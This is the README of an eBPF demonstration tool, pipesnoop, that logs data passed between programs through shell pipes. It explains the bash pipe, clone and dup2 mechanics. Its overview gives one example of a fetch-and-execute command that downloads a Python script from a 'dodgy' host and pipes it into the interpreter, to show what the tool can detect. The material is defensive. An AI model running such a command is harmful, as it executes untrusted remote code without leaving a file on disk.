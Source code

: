 # BPF-PipeSnoop
Example program using eBPF to log data being based in using shell pipes (`|`)

# Overview
Shells can parse data between programs using pipes, e.g.:
```bash
curl https://dodgy.com/loader.py | python -
```

In this example, a python script is downloaded from the internet and executed,
without the file being written to disk, and its content is not visible on the commnandline.


`pipesnoop` is a demonstration of how you could detect when data is being passed using pipes
and log it, all using eBPF.

# Building
```bash
# First clone the repository and the libbpf submodule
git clone --recursive https://github.com/pathtofile/bpf-pipesnoop.git
cd bpf-pipesnoop/src
make
```
This should generate the program `pipesnoop` in the same directory.

# Running
Just run as root and watch the output:
```bash
sudo ./pipesnoop
```

# How it works
(Note experts will have better descripion than this)
When bash is given a command to run multiple programs with a pipe in between, a number of things happen.
If the example is:
```bash
bash -c "apple | banana"
```
Then this will happen:

### Bash pipe
bash will use the syscall `pipe` to create an annonamous pipe.
This returns two file descriptors, 1 for each end of the pip, e.g. fds `3` and `4`.

### Bash clone
bash will call `clone` twice to create `apple` and `banana`.
Both programs inhearet all of bash's fds, so they also has fds `3` and `4`.
**important note** this means both `apple` and `banana` start running at (almost) the same time,
i.e. `banana` does *not* wait for `apple` to finish before running.

### Apple close and dup2
`apple` will close one end of the pipe e.g. `3`, then call `dup2` to overwrite its `stdout` or `1`
fd with the non-closed end of the pipe, e.g. `dup2(4, 1)`.

### Banana close and dup2
`banana` will close the other end of the pipe, e.g. `4`, then call `dup2` to overwrite its `stdin` or `0`
fd with the non-closed end of the pipe, e.g. `dup2(3, 0)`.

### Apple write
`apple` will start writing data to `stdout` like normal, but due to the `dup2`
call it ends up instead into the pipe.

### Banana read
`banana` will start reading data from its `stdin` like normal, but due to the `dup2`
call it ends up instead reading from the pipe.

### Pipe close
When `apple` closes, it will send an 'end of stream' down the pipe, so `banana` knows it has finished reading.


# Aknowledgements
The skeleton of this project was made with the help of [Libpf-Bootstrap](https://github.com/libbpf/libbpf-bootstrap).
